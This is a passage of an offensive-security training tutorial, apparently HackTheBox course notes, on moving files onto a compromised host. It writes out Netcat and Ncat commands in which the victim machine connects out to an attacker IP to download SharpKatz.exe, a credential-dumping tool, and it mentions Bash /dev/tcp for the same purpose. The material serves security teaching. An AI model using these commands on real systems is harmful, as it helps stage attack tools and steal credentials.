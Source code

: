Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. This method is useful in scenarios where there's a firewall blocking inbound connections. Let's listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe) as input to Netcat.

#### Attack Host - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Compromised Machine Connect to Netcat to Receive the File

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Original Netcat
victim@target:~$ nc 192.168.49.128 443 > SharpKatz.exe
```

Let's do the same with Ncat:

#### Attack Host - Sending File as Input to Ncat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Ncat
shakir0x00@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connect to Ncat to Receive the File

Miscellaneous File Transfer Methods

```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

Miscellaneous File Transfer Methods

```shell-session
shakir0x00@htb[/htb]$ # Example using Original Netcat
shakir0x00@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
